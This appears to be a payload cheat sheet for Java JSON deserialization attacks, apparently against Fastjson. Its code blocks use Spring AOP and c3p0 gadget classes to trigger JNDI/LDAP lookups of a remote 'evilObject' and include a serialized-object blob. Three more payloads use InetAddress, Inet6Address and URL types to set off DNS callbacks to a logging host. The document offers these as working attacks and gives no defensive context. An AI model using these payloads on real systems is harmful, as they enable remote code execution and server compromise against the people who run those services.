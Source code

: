  - DefaultBeanFactoryPointcutAdvisor

```java
{
  "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor",
   "beanFactory": {
     "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
     "shareableResources": [
       "ldap://127.0.0.1:8888/evilObject"
     ]
   },
   "adviceBeanName": "ldap://127.0.0.1:8888/evilObject"
},
{
   "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor"
}
```

 - WrapperConnectionPoolDataSource

```java
{
    "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
    "userOverridesAsString": "HexAsciiSerializedMap:aced000...6f;"
}
```

 - JndiRefForwardingDataSource

```java
{
    "@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource",
    "jndiName": "ldap://127.0.0.1:8888/evilObject",
    "loginTimeout": 0
}
```

 - InetAddress

```java
{
	"@type": "java.net.InetAddress",
	"val": "http://dnslog.com"
}
```

 - Inet6Address

```java
{
	"@type": "java.net.Inet6Address",
	"val": "http://dnslog.com"
}
```

 - URL

```java
{
	"@type": "java.net.URL",
	"val": "http://dnslog.com"
}
```
